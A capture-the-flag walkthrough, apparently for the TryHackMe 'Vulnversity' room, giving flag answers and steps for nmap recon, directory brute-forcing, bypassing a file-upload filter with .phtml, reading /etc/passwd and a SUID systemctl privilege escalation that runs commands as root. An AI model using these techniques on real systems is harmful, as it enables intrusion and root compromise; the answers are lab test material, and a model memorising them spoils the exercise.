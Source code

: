 # [Vulnversity][5]
Learn about active recon, web app attacks and privilege escalation.

### [TASK 2] Reconnaissance

Nmap Cheatsheet -> https://www.stationx.net/nmap-cheat-sheet/

Run the command `nmap -A <IP>` > [CHECK THE SCAN RESULT][1]

Scan the box, how many ports are open? **6**

What version of the squid proxy is running on the machine? **3.5.12**

How many ports will nmap scan if the flag *-p-400* was used? **400** <br>
> *-400* means start scanning from port 1 and scan till 400. To know more check [Nmap - Port Specification][2].

Using the nmap flag *-n* what will it not resolve? **DNS**

What is the most likely operating system this machine is running? **Ubuntu**


What port is the web server running on? **3333**

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

> - It is always good idea to check for vulnerability. To do that run `nmap --script=vuln <IP>`
- Try **SSH** as port 22 is open and running OpenSSH. To do that run `ssh <IP>`
- Check the **website** as there is HTTP port. To do that, go to `<IP>:3333`.   



### [TASK 3] Locating directories using GoBuster

Let's start with a GoBuster Directory scan. Command and the location of wordlist is given. There are a lot of wordlist to choose from but for the sake of this room *small.txt* from *dirb* directory will enough.

![GoBuster Results](images/gobuster.jpg)

What is the directory that has an upload form page? **/internal/**

> Try to access all the directory and BAAM! */internal* has a upload page. If none of this would have worked, try other wordlist like *common.txt*. Also, **recursive** option can be used. DirBuster GUI version can be used too.

### [TASK 4] Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked? **.php**

1. Intercept the request as show and send it to **Intruder**.
2. **Clear** variables and select ***.\<file_formart>*** and click on **Add**.
3. Under **Payloads** option, Load the *phpext.txt*. Make sure to uncheck **Payload Encoding**.
4. Click on **Start Attack**. Check the **Length** variable, one has a different length.

![Intruder Result](images/burpsuite.jpg)

Run this attack, what extension is allowed? **.phtml**

Follow the remote access steps. After uploading the file.

What is the name of the user who manages the webserver? **bill**
> To get the name, check /etc/psswd file. To do that, type `cat /etc/passwd` and you will see the name bill as a user.

What is the user flag?
> As we know *bill* is the user. Direct to /home/bill. Type, `cd /home/bill`. There is a file called **user.txt**. Check the content of the file using `cat user.txt`.

### [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]


[1]: https://gist.github.com/abhi-agrawl/87aa4e87f999c7ff3fc99e7a8d0e665e
[2]: https://www.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/
[5]: https://tryhackme.com/room/vulnversity

